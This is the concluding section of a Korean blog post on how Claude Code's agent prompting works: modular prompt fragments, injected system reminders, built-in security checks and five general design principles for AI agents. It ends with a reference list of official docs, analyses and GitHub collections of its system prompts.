Claude Code를 분석하면서 가장 인상 깊었던 것은, **"마법"처럼 보이는 편리한 동작 뒤에 숨은 정교한 엔지니어링**이다. 잘 만들어진 단일 프롬프트가 아니라, 수십 개의 작은 프롬프트 조각들이 조건에 따라 조합되고, 적절한 시점에 리마인더가 주입되며, 보안 검증이 자동으로 수행되는 과정을 통해 "알아서 잘 작동하는" 경험을 만들어낸다.

Anthropic이 공개하지 않은 또 하나의 미스터리가 있다. `<system-reminder>` 태그가 Claude 모델 훈련 과정에서 특별한 의미를 가지도록 학습되었는지 여부다. 이 태그가 단순한 XML 마크업인지, 아니면 모델이 특별히 주의를 기울이도록 훈련된 "특별한 신호"인지는 아직 명확하지 않다.

하지만 분명한 것은, Claude Code의 패턴들이 **모든 AI 에이전트 개발에 적용 가능한 보편적인 원칙**을 담고 있다는 점이다:

1. 프롬프트를 모듈화하고 동적으로 조합하라
2. 중요한 지침은 반복해서 상기시켜라
3. 복잡한 작업은 특화된 에이전트로 분할하라
4. 보안을 처음부터 설계에 포함시켜라
5. 컨텍스트를 효율적으로 관리하라

끝으로,이 글은 Claude Code의 작동 원리에 대한 이해를 설명하고 있지만 코딩 이외의 다른 목적의 AI 에이전트를 개발하시는 분들에게도 참고 자료가 되었으면 한다.


~~최강의~~최초의 AI 에이전트 - Agent Smith

---

## 참고 자료

### 공식 문서
- [Claude Code Best Practices](https://www.anthropic.com/engineering/claude-code-best-practices) - Anthropic
- [System Prompts](https://docs.claude.com/en/release-notes/system-prompts) - Claude Docs

### 기술 분석
- [Peeking Under the Hood of Claude Code](https://medium.com/@outsightai/peeking-under-the-hood-of-claude-code-70f5a94a9a62) - OutsightAI

### GitHub
- [Piebald-AI/claude-code-system-prompts](https://github.com/Piebald-AI/claude-code-system-prompts) - 시스템 프롬프트 전체 목록 (v2.0.43)
- [gregkonush/claude-system-prompts](https://github.com/gregkonush/claude-system-prompts)
- [Claude Code System Prompt Gist](https://gist.github.com/agokrani/919b536246dd272a55157c21d46eda14)

### 도구
- [LiteLLM](https://docs.litellm.ai/) - API 모니터링 프록시
- [tweakcc](https://github.com/Piebald-AI/tweakcc) - 시스템 프롬프트 커스터마이징 도구